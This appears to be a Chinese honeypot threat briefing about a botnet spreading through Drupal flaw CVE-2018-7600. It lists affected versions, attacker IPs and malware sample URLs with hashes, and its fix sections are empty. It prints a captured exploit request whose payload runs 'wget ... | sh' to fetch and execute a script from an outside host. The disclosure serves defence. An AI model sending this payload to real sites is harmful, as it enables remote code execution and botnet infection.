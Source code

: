 ```yaml
---
layout:     post
title:      CVE-2018-7600_僵尸网络感染简报
subtitle:   CVE-2018-7600
date: 2018-08-20
author:     shenzhen_antiylabs
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# CVE-2018-7600_僵尸网络感染简报

## 概述

Drupal是一个开源内容管理系统（CMS），Drupal安全团队披露了一个非常关键的漏洞，编号CVE-2018-7600，这使得攻击者可能将恶意注入表单内容，此漏洞允许未经身份验证的攻击者在默认或常见的Drupal安装上执行远程代码执行。安天蜜网团队成功捕获到采用CVE-2018-7600进行传播的僵尸网络样本及感染态势，同时感知到互联网空间的弱点设备超过166340台，分布态势广泛（见下图）：

图1  Drupal 6.x 弱点态势分布

![2018091401.png](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/2018091401.png?raw=true)

图2  Drupal 7.x 弱点态势分布

![2018091402.png](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/2018091402.png?raw=true)

图3  Drupal 8.x 弱点态势分布

![2018091403.png](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/2018091403.png?raw=true)

## 漏洞描述

Drupal是一个开源内容管理系统（CMS），Drupal安全团队披露了一个非常关键的漏洞，编号CVE-2018-7600 Drupal对表单请求内容未做严格过滤，因此，这使得攻击者可能将恶意注入表单内容，此漏洞允许未经身份验证的攻击者在默认或常见的Drupal安装上执行远程代码执行。

影响版本

Drupal 6.x，7.x，8.x

## 捕获载荷

```
  POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 181
Content-Type: application/x-www-form-urlencoded
Host: 66.111.41.249
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
form_id=user_register_form&_drupal_ajax=1&mail%5B%23post_render%5D%5B%5D=exec&mail%5B%23type%5D=markup&mail%5B%23markup%5D=wget%20-qO%20-%20http%3A%2F%2F54.39.23.28%2F1sh%20%7C%20sh

```

## 	攻击IP及URL

141.212.122.64

174.78.55.2

213.251.229.212

34.235.122.141

45.33.42.63

60.191.38.78

8.12.22.20

88.204.114.107

66.111.41.249

## 样本

| **样本**                         | **MD5**                          |
| -------------------------------- | -------------------------------- |
| http://54.39.23.28/1sh           | ba9c8cdff0a21aa4b694bfea432b51c7 |
| http://51.254.221.129/c/cron     | 61cb165a9d4a8d6e52a28f72d9de7c1a |
| http://51.254.221.129/c/tfti     | d31dcc21cb6474b8f409731f1d29c1aa |
| http://51.254.221.129/c/pftp     | 6d1c2dda90ce47444c2a52988a37b6fa |
| http://51.254.221.129/c/ntpd     | 4929cd2477dbab329317559e19046e7f |
| http://51.254.221.129/c/sshd     | 4929cd2477dbab329317559e19046e7f |
| http://51.254.221.129/c/bash     | ee11c23377f5363193b26dba566b9f5c |
| http://51.254.221.129/c/pty      | 77609a265b59c33ca915c20ffb6ab2da |
| http://51.254.221.129/c/shy      | 5bbdb424290ac315f9ba81d2ff8a45ae |
| http://51.254.221.129/c/nsshtfti | 04db55d0a7be6ea7e06057850321b324 |
| http://51.254.221.129/c/nsshcron | 743a654c9ad496e8b352ee609599a560 |
| http://51.254.221.129/c/nsshpftp | df392c80b0a5f8cc1f902a59b44c8e5e |

## 受影响范围







## 修复及防护建议







## 参考资料


